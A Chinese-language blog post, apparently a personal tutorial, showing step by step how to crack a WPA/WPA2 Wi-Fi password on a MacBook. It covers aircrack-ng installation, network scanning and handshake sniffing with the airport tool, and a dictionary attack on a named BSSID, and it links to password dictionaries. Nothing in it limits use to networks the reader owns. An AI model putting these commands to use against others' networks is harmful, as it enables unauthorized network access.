 ```yaml
---
layout: post
title: 使用macbook破解WPA/WPA2 wifi密码
---
```


文本仅供学习交流。

我使用的系统是macbook air：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 11.26.50.png)

## 安装aircrack-ng

使用[macport](https://www.macports.org/install.php)安装，命令：

{% highlight shell %}
$ sudo port install aircrack-ng
{% endhighlight %}

## 抓包－抓取带密码的握手包

macbook自带了一个wifi工具：airport。

首先，断开wifi：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.10.48.png)

查看周围的wifi：

{% highlight shell %}
$ /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
{% endhighlight %}

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.12.27.png)

查看本机的无线网卡设备：

{% highlight shell %}
$ ifconfig
{% endhighlight %}

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.16.15.png)

**抓包：**

airport可以使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。有一种攻击方式是reinjecting packet，它可以强制无线路由器重启，这样当用户自动连接时可以获得握手包。如果无线路由器用户多的话，可以静等。

{% highlight shell %}
$ sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
{% endhighlight %}

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.35.17.png)

en0是无线网卡设备；6是要破解wifi的CHANNEL。

静等用户连接wifi，获得握手包。

抓的包，保存在/tmp：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.27.21.png)

## 破解wifi密码

获得握手包之后，我们还需要破解加密的密码。

好的密码字典一个，应包含常见的弱密码、手机号、姓名生日组合、各大网站泄露的密码、英语单词等等。如果使用字典破解不了，说明密码还算复杂；暴力穷举更是费时费力。（论复杂密码的重要性）。

{% highlight shell %}
$ sudo aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap
{% endhighlight %}

-w：指定字典文件；－b：指定要破解的wifi BSSID。

破解过程：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.45.30.png)

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 15.15.39.png)

> ### 我使用的密码字典：
> 
> http://pan.baidu.com/s/1clxaCA (全，未压缩15G)
>
> http://pan.baidu.com/s/1o7MCcHk (简，未压缩680M)